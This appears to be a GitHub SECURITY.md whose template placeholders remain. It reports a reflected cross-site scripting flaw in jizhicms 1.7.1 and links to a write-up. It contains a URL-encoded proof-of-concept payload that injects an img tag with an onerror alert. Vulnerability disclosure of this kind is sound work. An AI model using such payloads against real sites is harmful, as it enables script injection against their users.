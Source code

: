 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| 1.7.1   | jizhicms |

## Reporting a Vulnerability

payload:http://localhost/1'%3Cimg%20src=1%20onerror=alert(1)%3E--

issues details：
https://sharemice.github.io/jizhicmsvul/ReflectiveXSS.html
